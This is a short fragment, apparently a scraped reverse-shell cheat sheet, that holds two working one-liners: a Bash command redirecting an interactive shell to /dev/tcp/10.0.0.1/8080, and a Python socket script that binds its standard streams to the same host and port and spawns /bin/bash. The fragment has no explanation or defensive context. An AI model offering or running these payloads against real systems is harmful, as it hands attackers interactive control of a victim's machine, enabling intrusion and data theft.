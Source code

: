 # Bash

` bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 `

# Python

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' ```
